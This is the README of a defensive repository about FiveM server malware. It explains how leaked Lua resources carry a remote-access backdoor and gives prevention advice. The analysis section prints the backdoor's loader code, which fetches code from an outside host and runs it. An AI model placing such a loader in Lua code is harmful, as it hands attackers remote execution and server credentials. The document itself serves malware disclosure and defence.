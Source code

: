 - MalScanner.bat aims to check all of your servers resources for Malware.
- NetworkBlock.bat aims to block malware-serving domain names, which are contacted when the infected resource is run.

Run these two batch files on your server as Administrator. Use source comparison to remove infected code from detected .lua files. 
**MalScanner.bat must be put inside your resources directory. Simply right click and run as Administrator once.**

# About
This is a specific study into a common pay-hack providers methodology.
Credit goes to the specific individuals which devoted a lot of time to discover this growing problem on FiveM, their identities are redacted.

# Analysis
Most FiveM malware is formed around Remote Execution/Administration Tool (RAT). 4 lines of Lua code are written into resources (many of them obfuscate the code) which will download remote code from the external servers. We've found many leaked resources are infected with this type of malware. This repository will talk more about how it works works.

# How it works
It works by individuals releasing infected code/resources to the FiveM public. Server owners/developers take the code (that they don't know is infected) and install it on their servers. Once the resource is installed and ran it will inject its code into other previously clean resources.

The initial infected code boils down to the following:

```Lua
PerformHttpRequest('https://malware-panel.io/_i/i?to=UNIQUECODE', function (e, d)
	local s = assert(load(d))
	if (d == nil) then return end 
	s() 
end)
```

The Unique Code in the URL request is the malware user that now has control of your server. Once this code is run it downloads the remote code and runs it on line 4 as a function.

This is the basis on how most malware works. It proceeds to download several more requests and will continue until it injects more pre-existing resources.

After the code is run, it will upload some javascript and override existing files within the system builders directory. 

`resources\[system]\[builders]` 

The code will start propagating itself within all of your resources and files within the FiveM server installation to make it difficult to remove.

At this stage, its armageddon and all files within the server are compromised meaning files can be downloaded, uploaded, edited and viewed, including but not limited to just the server.cfg, sql credentials or even steal your cfx license keys. They’re also able to run remote code on the server which leads to the last step. The MalScanner batch file in this repository aims to show you exactly where the infected code is.


**Make sure you do not run your FiveM server as ROOT (Linux) or Administrator (Windows)**



# Other things you can do to prevent being attacked by malware

Consider adding the [Warden](https://discord.com/invite/jeFeDRasfs) to your discord server. Warden is a great resource that can help remove cheaters and leakers (people who participate in sharing leaked paid resources) from your community or support hack products like Cipher. 

Make sure to install the latest updates of whatever framework you are using for 

[ESX](https://github.com/esx-framework/esx-legacy) | [ESX Discord](https://discord.esx-framework.org)

[QBCore](https://github.com/qbcore-framework/qb-core) | [QBCore Discord](https://discord.gg/qbcore) 

Buy resources from only reputable places that you feel comfortable purchasing from either Tebex listed stores or from places like [Modit](https://modit.store/), if you're unsure about a store, perhaps ask for guidance on the Warden discord. These people are great for pointing you to good, honest resource creators.

Be extremely sketchy on code you get that is encrypted or downloaded from shady sources.

Lastly, the most important thing… **DON'T USE LEAKED RESOURCES!**
